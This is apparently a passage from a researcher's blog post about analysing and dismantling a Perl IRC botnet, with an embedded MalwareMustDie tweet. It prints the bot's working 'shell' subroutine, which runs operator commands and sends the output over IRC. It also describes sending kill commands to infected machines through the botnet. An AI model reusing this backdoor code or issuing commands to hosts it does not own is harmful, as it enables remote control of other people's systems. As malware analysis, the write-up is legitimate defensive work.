 After hanging in there longer and analysing the Perl script I found out that a botherder can query any of the bots which grants a bash shell on that machine which got infected. Due the fact that the IP's are camouflaged in that network and the botherders where activily hardly using the bots I came to the conclusion to kill the process of the bot. Trying to gain all the IP's and then sending information to ISP would take many time and also would not grant much access. So my thought was taking a few bots down and hoping the botherdes fell in panic then, shutting the botnet down or abandoning it.

<blockquote class="twitter-tweet" lang="de"><p lang="en" dir="ltr">Mass shutdown to all perl botnet nodes is executed :)<a href="https://twitter.com/wirehack7">@wirehack7</a> <a href="https://twitter.com/hashtag/lol?src=hash">#lol</a> &#10;Case: <a href="https://t.co/uLEwAFWRgx">https://t.co/uLEwAFWRgx</a>&#10;<a href="https://twitter.com/hashtag/MoronsGonnaCry?src=hash">#MoronsGonnaCry</a> <a href="http://t.co/v08Vy58qSA">pic.twitter.com/v08Vy58qSA</a></p>&mdash; ☩MalwareMustDie (@MalwareMustDie) <a href="https://twitter.com/MalwareMustDie/status/645340974705545216">19. September 2015</a></blockquote>
<script async src="//platform.twitter.com/widgets.js" charset="utf-8"></script>


## Analysis

        sub shell {
          return unless $acessoshell;
          my $printl=$_[0];
          my $comando=$_[1];
          if ($comando =~ /cd (.*)/) {
            chdir("$1") || msg("$printl", "Diret?rio inexistente!");
            return;
          }
          elsif ($pid = fork) {
             waitpid($pid, 0);
          } else {
              if (fork) {
                 exit;
               } else {
                   my @resp=`$comando 2>&1 3>&1`;
                   my $c=0;
                   foreach my $linha (@resp) {
                     $c++;
                     chop $linha;
                     sendraw($IRC_cur_socket, "PRIVMSG $printl :$linha");
                     if ($c >= "$linas_max") {
                       $c=0;
                       sleep $sleep;
                     }
                   }
                   exit;
               }
          }
        }

So I had two goals: 1.) gain an operator nickname, 2.) drop the commands to each bot to kill the process
